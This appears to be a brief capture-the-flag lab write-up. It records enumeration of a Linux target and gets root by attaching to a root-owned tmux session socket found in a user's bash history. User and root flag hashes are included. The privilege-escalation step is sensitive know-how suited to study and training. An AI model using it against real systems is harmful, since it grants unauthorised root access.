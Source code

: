 #userflag e6710a5464769fd5fcd216e076961750

Linux version 3.2.0-23-generic 
Sudo version 1.8.3p1                                                                                                                                          
127.0.0.1:631
PermitRootLogin yes                                                                                                                                           
root       1180  0.0  0.1  26416  1672 ?        Ss   05:17   0:00 /usr/bin/tmux -S /.devs/dev_sess                                                            
/usr/bin/X
looking through home directory we found that .bash_history has some content
![[Pasted image 20211216181717.png]]
looks like the user hype with running tmux copy the command we found
tmux -S /.devs/dev_sess 
and we are root
![[Pasted image 20211216181800.png]]

#rootflag f1bb6d759df1f272914ebbc9ed7765b2